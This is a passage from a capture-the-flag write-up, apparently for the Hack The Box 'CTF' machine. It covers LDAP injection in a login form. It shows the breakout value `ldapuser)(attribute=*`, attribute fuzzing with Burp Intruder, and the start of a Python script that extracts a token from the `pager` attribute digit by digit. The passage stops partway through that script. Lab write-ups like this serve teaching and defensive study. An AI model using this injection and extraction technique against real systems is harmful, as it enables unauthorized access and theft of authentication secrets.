
Assuming that the LDAP logic in the backend looks like the following:

{{<code language="ldap" title="Hypothetical query">}}
(&
  (username=<USERINPUT>)
  (otp=<USERINPUT>)
)
{{</code>}}

We can try to breakout of one of the conditions and add our own which will contain the attribute we are testing the existence of.

This can be done by sending something like `ldapuser)(attribute=*` as the username (double URL-encoded). 

This will then result in the following "hypothetical" query:


{{<code language="ldap" title="Resulting query">}}
(&
  (username=ldapuser)
  (attribute=*)
  (otp=<USERINPUT>)
)
{{</code>}}

If the attribute doesn't exist we won't get the "Cannot login" error message.

Using burp intruder, we can fuzz every attribute in our wordlist and see for which ones we get "Cannot login" in the response 

{{<figure src="/img/htb/ctf/attribute_fuzzing_intruder.png" position=center caption="Setting up Burp Intruder">}}

{{<figure src="/img/htb/ctf/valid_attributes.png" position=center caption="Valid LDAP attributes">}}

Among this list of valid attributes, `pager` seems to be a good candidate for containing a 81 digits token. We can verify it by using the same method as we did in the username enumeration.

### Token leak
___
We can use a slightly modified version of the previous script:

{{<code language="python" title="Retrieving the token string through LDAP Injection">}}
import requests
import string
import time

letters = list(string.ascii_lowercase)
digits = [int(d) for d in "1234567890"]
url = 'http://10.10.10.122/login.php'

def guess_next_char(current_guessed_string):
    for digit in digits:
        time.sleep(0.3)
        data = {
            "inputUsername": f"ldapuser%29%28pager%3d{current_guessed_string}{digit}%2a",
            "inputOTP": "1234",
        }
        response = requests.post(url, data=data)
        if "Cannot login" in response.text:
            return str(digit)
